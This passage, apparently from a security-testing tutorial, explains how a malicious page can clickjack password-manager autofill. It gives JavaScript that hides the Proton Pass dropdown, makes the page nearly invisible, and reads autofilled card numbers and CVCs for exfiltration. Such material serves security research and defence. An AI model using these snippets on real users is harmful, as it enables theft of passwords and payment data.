- Attacker controls a webpage (or achieves XSS/subdomain takeover/cache poisoning on a related domain).
- Victim has a password manager extension installed and unlocked (some autofill even when nominally locked).
- At least one user click is induced (overlayed cookie banners, dialogs, CAPTCHAs, games, etc.).

### Attack flow (manual autofill)

1. Inject an invisible but focusable form (login/PII/credit-card fields).
2. Focus an input to summon the extension’s autofill dropdown near the field.
3. Hide or occlude the extension UI while keeping it interactable.
4. Align a believable control under the hidden dropdown to coerce a click that selects an item.
5. Read filled values from the attacker form and exfiltrate.

### How to hide the autofill UI

- Extension element
  - Root element opacity (generic):

```js
// Reduce or nullify opacity of the extension root
// Works when the root element is attached in the page DOM
const root = document.querySelector('protonpass-root')
if (root) root.style.opacity = 0
```

  - Child inside open ShadowRoot (dynamic tag, hide internal iframe):

```js
// Find dynamic root like <protonpass-root-xyz> and hide its child iframe
const root = Array.from(document.querySelectorAll('*'))
  .find(el => el.tagName.toLowerCase().startsWith('protonpass-root-'))
if (root?.shadowRoot) {
  const frame = root.shadowRoot.querySelector('iframe')
  if (frame) frame.style.cssText += 'opacity:0 !important;'
}
```

- Parent element
  - BODY/HTML opacity tricks to make extension UI invisible while page looks normal (e.g., screenshot background):

```js
// Hide full page, then reveal a tiny amount to keep clicks working
document.body.style.opacity = 0
// Optional: Show a screenshot/lookalike to avoid a blank screen
// document.documentElement.style.backgroundImage = 'url(website.png)'

// Inject a credit-card form and focus to trigger dropdown
/* create #cardform with #cardnumber, #expiry, #cvc */
document.getElementById('cardnumber').focus()
// Make body barely visible to allow user interaction
document.body.style.opacity = '0.001'

function getCardValues() {
  const num = document.getElementById('cardnumber').value
  const exp = document.getElementById('expiry').value
  const cvc = document.getElementById('cvc').value
  // exfiltrate via XHR/fetch/websocket
}
```
